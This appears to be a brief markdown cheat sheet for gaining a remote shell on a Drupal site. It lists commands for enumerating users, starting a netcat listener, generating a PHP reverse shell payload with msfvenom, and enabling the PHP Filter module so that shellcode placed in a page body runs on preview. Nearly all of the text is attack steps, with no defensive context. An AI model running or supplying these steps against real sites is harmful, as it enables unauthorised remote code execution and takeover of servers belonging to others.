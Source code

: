 ### User enum
```
<domain>/user/register
```

### Get number of existing user
```
/users/<number>
```

### Start listener
```
nc -lvp <lport>
```

### Create php reverse shell
```
msfvenom -p php/reverse_php lhost=<lhost> lport=<lport> -f raw
```

### Insert PHP code into Drupal
```
/modules/php
Modules > (Check) PHP Filter > Save configuration
Modules > PHP filter Permsissions > Check Use th PHP code text format for Administrator > Save permissions
Content > Add content > Basic Page > Write php shellcode on the body > Text format: PHP code > Preview
```

